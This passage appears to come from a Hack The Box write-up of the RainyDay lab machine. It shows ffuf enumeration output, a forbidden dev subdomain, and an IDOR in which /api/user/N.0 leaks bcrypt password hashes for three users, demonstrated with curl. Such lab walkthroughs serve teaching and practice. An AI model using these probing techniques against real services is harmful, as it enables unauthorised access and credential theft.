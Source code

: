     3                       [Status: 200, Size: 50, Words: 7, Lines: 2, Duration: 104ms]
    1                       [Status: 200, Size: 50, Words: 7, Lines: 2, Duration: 188ms]
    2                       [Status: 200, Size: 50, Words: 7, Lines: 2, Duration: 227ms]
    :: Progress: [1000/1000] :: Job [1/1] :: 268 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
    

Since `ffuf` doesn’t have the range capability that `wfuzz` does, I’m using
the `<( )` Bash syntax to run the `seq` command and have the output be treated
as if it’s being read from a file.

Only 1, 2, and 3 seem to exist, but I still can’t access data on any of them.

### dev.rainycloud.htb

Visiting this site just returns a 403 Forbidden:

    
    
    HTTP/1.1 403 FORBIDDEN
    Server: nginx/1.18.0 (Ubuntu)
    Date: Fri, 10 Feb 2023 17:11:08 GMT
    Content-Type: text/html; charset=utf-8
    Connection: close
    Content-Length: 26
    
    Access Denied - Invalid IP
    

I’ll keep an eye out for a way to access it from RainyDay itself.

## Shell in Container

### Site Auth as gary

#### IDOR

Typically people think of insecure direct object reference (IDOR)
vulnerabilities as changing the user ID from 1 to 2 and getting back data that
I’m not supposed to get. But there are other ways that an IDOR can expose
data. Some poking around at the API shows that while `/api/user/1` returns an
error, `/api/user/1.0` does not!:

    
    
    oxdf@hacky$ curl http://rainycloud.htb/api/user/1.0
    {"id":1,"password":"$2a$10$bit.DrTClexd4.wVpTQYb.FpxdGFNPdsVX8fjFYknhDwSxNJh.O.O","username":"jack"}
    

I’ll explore what’s going on here in Beyond Root. I’ll grab the other two:

    
    
    oxdf@hacky$ curl http://rainycloud.htb/api/user/2.0
    {"id":2,"password":"$2a$05$FESATmlY4G7zlxoXBKLxA.kYpZx8rLXb2lMjz3SInN4vbkK82na5W","username":"root"}
    oxdf@hacky$ curl http://rainycloud.htb/api/user/3.0
    {"id":3,"password":"$2b$12$WTik5.ucdomZhgsX6U/.meSgr14LcpWXsCA0KxldEw8kksUtDuAuG","username":"gary"}
    